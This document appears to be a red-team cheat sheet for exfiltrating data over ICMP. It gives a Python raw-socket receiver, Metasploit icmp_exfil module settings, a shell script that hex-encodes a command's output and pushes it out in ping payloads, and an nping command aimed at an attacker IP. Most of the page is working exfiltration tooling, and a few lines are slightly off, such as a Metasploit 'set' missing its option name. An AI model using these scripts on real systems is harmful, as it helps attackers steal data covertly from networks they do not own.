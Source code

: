 # ICMP

## 01 - Server Setup

### 1.1 - Python Script Server

`$ cat icmp_server.py`

---

```python
import socket
import sys

s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_ICMP)
while True:
    data, src = s.recvfrom(1600)
    payload = data[44:60]
    sys.stdout.write(payload)
```

### 1.2 - Metasploit

```
msf > use auxiliary/server/icmp_exfil

msf auxiliary(server/icmp_exfil) > options

Module options (auxiliary/server/icmp_exfil):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   BPF_FILTER       icmp             yes       BFP format filter to listen for
   END_TRIGGER      ^EOF             yes       Trigger for end of file
   FNAME_IN_PACKET  true             yes       Filename presented in first packet straight after START_TRIGGER
   INTERFACE                         no        The name of the interface
   RESP_CONT        OK               yes       Data ro resond when continuation of data expected
   RESP_END         COMPLETE         yes       Data to response when EOF received and data saved
   RESP_START       SEND             yes       Data to respond when initial trigger matches
   START_TRIGGER    ^BOF             yes       Trigger for beginning of file


View the full module info with the info, or info -d command.

msf auxiliary(server/icmp_exfil) > set interface <interface>

msf auxiliary(server/icmp_exfil) > set icmp and not src <target_IP>

msf auxiliary(server/icmp_exfil) > run -j
```

## 02 - Usage

### 2.1 - Unix Shell

`$ cat icmp.sh`

```sh
#!/bin/sh

echo "${@:2}"

if [[ -z "$1" ]] || [[ -z "$2" ]];
then
    echo "Usage: $0 <destination> <command>"
    exit 1
fi

DEST=$1
CMD=${@:2}
OUTPUT=$($CMD | xxd -p -c 16)

ORG=$IFS
IFS=$(echo -en "\n\b")

for ROW in ${OUTPUT[@]}
do
    if [[ ${#ROW} = 32 ]]; then
        PAYLOAD=$ROW
    else
        PAD=$(printf "%0$(expr 32 - ${#ROW})d" 0)
        PAYLOAD=$ROW$PAD
    fi
    ping -c 1 -p $PAYLOAD $DEST
done
```

```
$ chmod +x icmp.sh

$ ./icmp.sh <IP> file.txt
```

### 2.2 - Nping

`$ nping --icmp <attacker_IP> --data-string "file.txt" -c 1`

## References

- [Can You Hack It - Quick Tips - Data Exfil Over ICMP](https://www.youtube.com/watch?v=IQwl3ZE0rK0)

- [ICMPExfil](https://github.com/martinoj2009/ICMPExfil)